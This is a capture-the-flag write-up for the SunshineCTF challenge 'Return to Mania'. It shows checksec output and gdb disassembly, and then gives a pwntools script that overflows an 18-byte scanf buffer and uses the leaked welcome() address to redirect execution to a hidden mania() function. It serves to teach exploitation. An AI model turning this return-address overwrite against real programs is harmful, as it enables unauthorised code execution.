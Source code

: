 ## SunshineCTF: Return to Mania
##### *tl;dr: buffer overflow to change instruction pointer*
#### First pwn challenge worth 50 points, we start reconnaissance with ```checksec```:
```
$ checksec return-to-mania
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
#### From the results, we see that the binary has a non-executable stack, but we can still perform a buffer overflow since there isn't a stack canary in place. Also, we have to note that PIE is enabled which means that the addresses for functions are in a randomized layout. We run the binary to have an initial look on what it does:
```
$ ./return-to-mania
  Welcome to WrestleMania! Type in key to get access.
  addr of welcome(): 0x5658c6ed
```
#### We'll be testing this locally for now, but when we run the binary on the challenge server, we get a different address for welcome everytime. So what the binary does is print some stuff out, give us the address for welcome, and wait for user input. To see the inner workings of the binary, we open it in gdb:
```
$ gdb ./return-to-mania
  gdb-peda$ disas main
    Dump of assembler code for function main:
     0x00000746 <+0>:	  lea    ecx,[esp+0x4]
     0x0000074a <+4>:	  and    esp,0xfffffff0
     0x0000074d <+7>:	  push   DWORD PTR [ecx-0x4]
     0x00000750 <+10>:	  push   ebp
     0x00000751 <+11>:	  mov    ebp,esp
     0x00000753 <+13>:	  push   ebx
     0x00000754 <+14>:	  push   ecx
     0x00000755 <+15>:	  call   0x560 <__x86.get_pc_thunk.bx>
     0x0000075a <+20>:	  add    ebx,0x13f2
     0x00000760 <+26>:	  call   0x6ed <welcome>
     0x00000765 <+31>:	  sub    esp,0xc
     0x00000768 <+34>:	  lea    eax,[ebx-0x12cc]
     0x0000076e <+40>:	  push   eax
     0x0000076f <+41>:	  call   0x4d0 <puts@plt>
     0x00000774 <+46>:	  add    esp,0x10
     0x00000777 <+49>:	  mov    eax,0x0
     0x0000077c <+54>:	  lea    esp,[ebp-0x8]
     0x0000077f <+57>:	  pop    ecx
     0x00000780 <+58>:	  pop    ebx
     0x00000781 <+59>:	  pop    ebp
     0x00000782 <+60>:	  lea    esp,[ecx-0x4]
     0x00000785 <+63>:	  ret    
   End of assembler dump.
```
#### Basically, the main function just heads on to call the welcome function, so that's what we have to focus on disassembling. 
```
 gdb-peda$ disas welcome
   Dump of assembler code for function welcome:
     0x000006ed <+0>:	  push   ebp
     0x000006ee <+1>:	  mov    ebp,esp
     0x000006f0 <+3>:	  push   ebx
     0x000006f1 <+4>:	  sub    esp,0x14
     0x000006f4 <+7>:	  call   0x560 <__x86.get_pc_thunk.bx>
     0x000006f9 <+12>:	  add    ebx,0x1453
     0x000006ff <+18>:	  sub    esp,0xc
     0x00000702 <+21>:	  lea    eax,[ebx-0x131c]
     0x00000708 <+27>:	  push   eax
     0x00000709 <+28>:	  call   0x4d0 <puts@plt>
     0x0000070e <+33>:	  add    esp,0x10
     0x00000711 <+36>:	  sub    esp,0x8
     0x00000714 <+39>:	  lea    eax,[ebx-0x145f]
     0x0000071a <+45>:	  push   eax
     0x0000071b <+46>:	  lea    eax,[ebx-0x12e8]
     0x00000721 <+52>:	  push   eax
     0x00000722 <+53>:	  call   0x490 <printf@plt>
     0x00000727 <+58>:	  add    esp,0x10
     0x0000072a <+61>:	  sub    esp,0x8
     0x0000072d <+64>:	  lea    eax,[ebp-0x12]
     0x00000730 <+67>:	  push   eax
     0x00000731 <+68>:	  lea    eax,[ebx-0x12d1]
     0x00000737 <+74>:	  push   eax
     0x00000738 <+75>:	  call   0x500 <__isoc99_scanf@plt>
     0x0000073d <+80>:	  add    esp,0x10
     0x00000740 <+83>:	  nop
     0x00000741 <+84>:	  mov    ebx,DWORD PTR [ebp-0x4]
     0x00000744 <+87>:	  leave  
     0x00000745 <+88>:	  ret    
  End of assembler dump.
```
#### Analyzing the instructions, we see puts and printf being called, which we know just prints the stuff that we see when we start the binary. What we do want to pay attention to starts at address ```0x0000072a```, we see that the code creates space in the stack and initializes a buffer of 18(0x12) bytes - then we proceed to a ```scanf()``` call which we can exploit by putting in more stuff than it expects. By inputting 18 bytes of input and adding 4 additional bytes, we can now be able to overwrite the instruction pointer. But where do we jump to? Let's take a look at the functions that we have.
```
gdb-peda$ info functions
  [...]
  0x0000065d  mania
  0x000006ed  welcome
  0x00000746  main
  [...]
```
#### We see the ```mania``` function, but we don't see it get executed in the main function, so this is what we want to jump into and execute. We need to consider that the binary has its ASLR feature turned on, but that won't be a problem - since the offset between the addresses of each function is always the same. The addresses of the functions mania and welcome have a difference of 144, what we can do with this is whenever we're presented with the address of the welcome function in the start of the challenge, we can subtract 144 from it and we get the address for mania. So let's create our exploit script:
##### exploit.py  
```python
#: Connect to challenge server
HOST = 'ret.sunshinectf.org' 
PORT = 4301
p = remote(HOST,PORT)
prompt = p.recv()

#: Exploit code
offset = 'A' * 22
welcome_addr = int(prompt.splitlines()[1].split()[-1],16)
mania_addr = p32(welcome_addr - 144)
exploit = offset + mania_addr

#: Send payload
p.sendline(exploit)
print(p.recv())
```
#### Then we run it to get the flag!
```
$ python exploit.py
WELCOME TO THE RING!
sun{0V3rfl0w_rUn_w!Ld_br0th3r}
```
